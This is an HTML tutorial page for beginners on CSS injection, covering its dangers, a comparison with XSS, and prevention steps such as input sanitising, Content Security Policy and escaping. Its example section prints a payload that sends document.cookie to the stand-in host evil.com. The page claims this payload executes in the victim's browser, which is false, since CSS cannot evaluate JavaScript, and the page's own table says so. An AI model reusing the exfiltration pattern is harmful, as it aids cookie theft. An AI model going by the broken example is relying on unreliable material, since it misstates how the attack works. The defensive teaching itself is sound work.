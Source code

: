 <!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
</head>
<body>

  <h1>🎨 CSS Injection – Styling Your Way Into Security Flaws</h1>

  <h2>👶 For Beginners: What is CSS Injection?</h2>
  <p>
    CSS Injection is when an attacker injects malicious Cascading Style Sheets (CSS) into a web page to manipulate how it behaves or looks — or even leak data from a user’s browser!
  </p>
  <p>
    💡 Think of it like someone sneaking their own stylesheet into your website and secretly changing colors, layout, or stealing input data.
  </p>

  <h2>⚠️ Why is CSS Injection Dangerous?</h2>
  <p>At first glance, CSS might look harmless — after all, it just styles your webpage, right?</p>
  <p>
    Wrong. When misused, CSS can:
  </p>
  <ul>
    <li>🕵️ Leak sensitive info (like usernames or CSRF tokens)</li>
    <li>🎯 Trick users with fake UI elements</li>
    <li>📄 Modify layout to obscure content or mislead</li>
    <li>💣 Chain with other attacks like HTML Injection or DOM-based XSS</li>
  </ul>

  <h2>💥 Real-World Example: Data Exfiltration via CSS</h2>
  <p>Let’s say a site reflects user input inside a <code>&lt;style&gt;</code> tag:</p>
  <pre><code>&lt;style&gt;
  body { background: {user_input}; }
  &lt;/style&gt;</code></pre>
  <p>
    Now an attacker sends:
  </p>
  <pre><code>body { background: url('https://evil.com/steal?data=' + document.cookie); }</code></pre>
  <p>
    If unfiltered, this executes in the victim’s browser and sends data to the attacker’s domain.
  </p>
  <p>Another sneaky trick: Using <code>:visited</code> selectors to detect which sites you've visited or leaking content from input fields using CSS attribute selectors.</p>

  <h2>🔬 CSS Injection vs XSS</h2>
  <p>🔁 They’re similar, but:</p>
  <table border="1">
    <thead>
      <tr>
        <th>Attack Type</th>
        <th>Executes Scripts?</th>
        <th>Requires JS?</th>
        <th>Can Steal Data?</th>
      </tr>
    </thead>
    <tbody>
      <tr>
        <td>CSS Injection</td>
        <td>❌ (no JS)</td>
        <td>❌</td>
        <td>✅ (in limited ways)</td>
      </tr>
      <tr>
        <td>XSS</td>
        <td>✅</td>
        <td>✅</td>
        <td>✅ (full power)</td>
      </tr>
    </tbody>
  </table>
  <p>💡 CSS Injection is “XSS-lite” — stealthy and still dangerous.</p>

  <h2>🛡️ How to Prevent CSS Injection</h2>

  <h3>✔️ 1. Don’t Reflect Raw Input into &lt;style&gt; Tags</h3>
  <ul>
    <li>✅ Sanitize all user inputs that go into CSS or HTML.</li>
    <li>❌ Avoid rendering user-controlled values directly in stylesheets or style attributes.</li>
  </ul>

  <h3>✔️ 2. Use CSP (Content Security Policy)</h3>
  <ul>
    <li>✅ Implement CSP to prevent inline styles or block external malicious stylesheets.</li>
  </ul>
  <p>Example:</p>
  <pre><code>Content-Security-Policy: style-src 'self';</code></pre>

  <h3>✔️ 3. Escape User Input Properly</h3>
  <ul>
    <li>✅ Use escaping functions that encode special characters (&lt;, {, }, ;, etc.)</li>
    <li>✅ For templates, use secure templating engines that auto-escape</li>
  </ul>

  <h3>✔️ 4. Sanitize HTML Inputs</h3>
  <ul>
    <li>✅ If user-generated content includes style-related HTML (e.g., WYSIWYG editors), use sanitizers like DOMPurify</li>
    <li>✅ Remove dangerous attributes like style, onload, or background</li>
  </ul>

  <h3>✔️ 5. Audit Reflected Content</h3>
  <ul>
    <li>✅ Run static code analysis and manual testing to catch places where input is reflected into styles</li>
    <li>✅ Use tools like Burp Suite, ZAP, and browser DevTools</li>
  </ul>

  <h2>🚀 Final Thoughts</h2>
  <p>
    CSS Injection may not have the power of full XSS, but it can still lead to UI manipulation, data leakage, and privacy invasion — especially in modern apps where styles affect behavior.
  </p>
  <p>
    🖌️ CSS is not just decoration — in the wrong hands, it's a data exfiltration weapon.
  </p>

  <h3>🔐 Style Secure. Code Safer.</h3>

</body>
</html>
